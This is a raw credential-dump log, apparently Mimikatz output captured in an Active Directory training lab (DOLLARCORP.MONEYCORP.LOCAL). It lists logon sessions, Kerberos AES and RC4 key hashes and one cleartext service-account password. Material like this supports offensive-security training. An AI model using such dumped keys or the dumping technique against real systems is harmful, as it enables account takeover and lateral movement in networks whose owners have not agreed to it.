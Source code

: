 ```powershell
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4
           rc4_hmac_nt       a98e18228819e8eec3dfa33cb68b0728
           rc4_hmac_old      a98e18228819e8eec3dfa33cb68b0728
           rc4_md4           a98e18228819e8eec3dfa33cb68b0728
           rc4_hmac_nt_exp   a98e18228819e8eec3dfa33cb68b0728
           rc4_hmac_old_exp  a98e18228819e8eec3dfa33cb68b0728

Authentication Id : 0 ; 138873 (00000000:00021e79)
Session           : Service from 0
User Name         : websvc
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/10/2025 9:28:48 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1114

         * Username : websvc
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : AServicewhichIsNotM3@nttoBe
         * Key List :
           aes256_hmac       2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7
           aes128_hmac       86a353c1ea16a87c39e2996253211e41
           rc4_hmac_nt       cc098f204c5887eaa8253e7c2749156f
           rc4_hmac_old      cc098f204c5887eaa8253e7c2749156f
           rc4_md4           cc098f204c5887eaa8253e7c2749156f
           rc4_hmac_nt_exp   cc098f204c5887eaa8253e7c2749156f
           rc4_hmac_old_exp  cc098f204c5887eaa8253e7c2749156f

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : DCORP-ADMINSRV$
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 1/10/2025 9:28:35 AM
SID               : S-1-5-20
Authentication Id : 0 ; 11523662 (00000000:00afd64e)
Session           : NewCredentials from 0
User Name         : student867
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 5/9/2025 2:00:54 PM
SID               : S-1-5-21-719815819-3726368948-3917688648-20607

         * Username : srvadmin
         * Domain   : dcorp
         * Password : (null)
         * Key List :
           aes256_hmac       01e519027474feb980e17dadb7230f81ccc3114a49f964732e0c225f91de91a6
           aes128_hmac       1078167b969a70401927d9fb1faf4e10
           rc4_hmac_nt       31d6cfe0d16ae931b73c59d7e0c089c0
           rc4_hmac_old      31d6cfe0d16ae931b73c59d7e0c089c0
           rc4_md4           31d6cfe0d16ae931b73c59d7e0c089c0
           rc4_hmac_nt_exp   31d6cfe0d16ae931b73c59d7e0c089c0
           rc4_hmac_old_exp  31d6cfe0d16ae931b73c59d7e0c089c0

Authentication Id : 0 ; 5853380 (00000000:005950c4)
Session           : RemoteInteractive from 2
User Name         : srvadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/11/2025 4:22:58 AM
```